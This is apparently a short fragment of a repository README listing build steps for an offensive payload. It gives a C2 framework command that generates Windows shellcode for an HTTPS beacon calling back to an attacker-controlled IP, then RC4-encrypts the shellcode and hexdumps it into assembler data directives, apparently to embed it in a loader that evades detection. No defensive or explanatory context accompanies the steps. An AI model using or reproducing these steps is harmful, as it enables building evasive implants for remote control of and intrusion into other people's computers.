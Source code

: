 ## Steps needed:
- generate beacon --seconds 5 --jitter 3 --os windows -a amd64 --format shellcode -b https://172.x.x.x:443 --name httpsBeacon --save /tmp/https50.bin -G --skip-symbols
- python rc4.py <key> <filename>  ---> creates https50.bin.enc
- <hexdump -v -e '1/2 "dw 0%.4xh\n"' https50.bin.enc| tee out.txt>

